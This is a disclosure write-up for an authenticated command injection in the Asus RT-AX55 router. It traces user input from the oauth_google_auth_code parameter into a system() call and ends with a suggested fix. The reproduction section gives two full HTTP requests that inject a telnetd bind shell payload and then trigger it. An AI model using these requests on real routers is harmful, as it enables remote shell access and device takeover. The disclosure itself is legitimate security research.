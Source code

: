 # 0x01  Vulnerability Description #

The Asus `rt-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyze the binary file "`sbin/rc`". In the function `FUN_0004d76c`, retrieve the value of "`oauth_google_gen_token_email`" from the HTTP request parameter `action_script`, leading to the execution of the function `FUN_000bc540`.

![](./img/1.png)

In function `FUN_000bc540`.

![](./img/2.png)

Enter the function `FUN_000b9190`, retrieve the value of "`oauth_google_auth_code`" from NVRAM, and finally concatenate the value of "`oauth_google_auth_code`" to the system function.

![](./img/3.png)



# 0x04  Vulnerability Reproduction #

Seting `oauth_google_auth_code`.

requst1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 563
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=197%40qq.com&PM_SMTP_AUTH_USER=77&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%20888`'

![](./img//4.png)

Trigger command injection.

requst2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_gen_token_email&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=177%40qq.com&PM_SMTP_AUTH_USER=19&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//5.png)

![](./img//6.png)

# 0x05  Vulnerability Fix #

Filter out single quotes from "`oauth_google_auth_code`".